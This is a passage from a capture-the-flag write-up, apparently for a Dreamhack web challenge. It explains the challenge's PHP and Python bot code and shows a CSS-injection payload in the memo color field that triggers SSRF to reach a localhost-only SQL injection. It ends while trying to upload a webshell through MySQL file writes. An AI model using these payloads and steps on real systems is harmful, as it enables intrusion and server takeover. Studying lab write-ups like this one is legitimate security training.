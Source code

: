 ```php
}
# /var/www/html/check.php
?>
```
SQL Injection occurred because it don't check $id parameter in check.php. But SQL Injection is occuring only locally.


```python
from selenium import webdriver
import time
import sys, os

memoid = sys.argv[1]

driver = webdriver.PhantomJS(service_log_path='/dev/null')
driver.implicitly_wait(10)
driver.get("http://localhost/read.php?id=" + memoid)
driver.get("http://localhost/check.php?id=" + memoid)
```
```php
<?php
$id = $_GET['id'];
if(ctype_digit($id)){
    exec("python3 /bot.py ".$id);
}
else{
    die("no hack");
}
die('<script> location.href="/" </script>');
?>
```
it calls bot.py in submit.php. we can't exploit because it don't check $id parameter using ctype_digit() function. But we can exploit as SSRF using background: url() of CSS. So I just decided to insert an SSRF PoC as color value using post writing function.

![](https://user-images.githubusercontent.com/49112423/158553191-baf50b5b-22c5-4779-8f85-fcdd48168b82.png)
```http
POST /?path=write HTTP/1.1
Host: host1.dreamhack.games:9111
Content-Length: 95
Content-Type: application/x-www-form-urlencoded
Connection: close

memoTitle=asdf&memoColor=aqua}.content{background:%20url('https://google.com')&memoContent=adsf
```
I inserted an SSRF PoC as above. After this processing, When I go to connect, I could see that it request to check.php well. If we report this post, we can see that it sleep for 5 seconds. (delete photo)

```conf
[mysqld]
pid-file        = /var/run/mysqld/mysqld.pid
socket          = /var/run/mysqld/mysqld.sock
datadir         = /var/lib/mysql
secure-file-priv= /tmp/
default_authentication_plugin=mysql_native_password

# Custom config should go here
!includedir /etc/mysql/conf.d/
```
Now we have to upload the webshell. So I tried to upload the webshell to /var/www/html/cmd.php but it failed. So I read a code that for finding a reason. The reason is that the value of secure-file-priv is /tmp. 
